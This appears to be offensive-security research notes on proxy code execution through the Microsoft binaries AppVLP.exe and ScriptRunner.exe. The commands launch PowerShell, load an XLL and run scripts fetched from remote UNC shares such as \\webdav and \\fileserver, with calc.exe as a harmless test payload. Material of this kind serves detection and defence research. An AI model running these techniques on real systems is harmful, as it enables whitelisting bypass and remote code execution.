 # Code Execution via AppVLP

## Examples
```
C:\Program Files (x86)\Microsoft Office\root\client\AppVLP.exe powershell.exe -c "$e=New-Object -ComObject shell.application;$e.ShellExecute('calc.exe', '', '', 'open', 1)"
C:\Program Files (x86)\Microsoft Office\root\client\AppVLP.exe powershell.exe -c "$e=New-Object -ComObject excel.application;$e.RegisterXLL('\\webdav\xll_poc.xll')"
C:\Program Files (x86)\Microsoft Office\root\client\AppVLP.exe C:\Users\will\Desktop\Research\calc_bat.exe
C:\Program Files (x86)\Microsoft Office\root\client\AppVLP.exe C:\Users\will\Desktop\Research\calc.bat
C:\Program Files (x86)\Microsoft Office\root\client\AppVLP.exe \\webdav\calc.bat
```

### Command Line in procmon
```
C:\Program Files\WindowsApps\Microsoft.WindowsCalculator_10.1706.1862.0_x64__8wekyb3d8bbwe\Calculator.exe" -ServerName:App.AppXsm3pg4n7er43kdh1qp4e79f1j7am68r8.mca
```

### Notes
- Access denied when ran from System32

# Code Execution via ScriptRunner
## Examples
```
C:\Windows\System32
λ ScriptRunner.exe -appvscript "\\fileserver\calc.cmd"
λ ScriptRunner.exe -appvscript powershell.exe -args
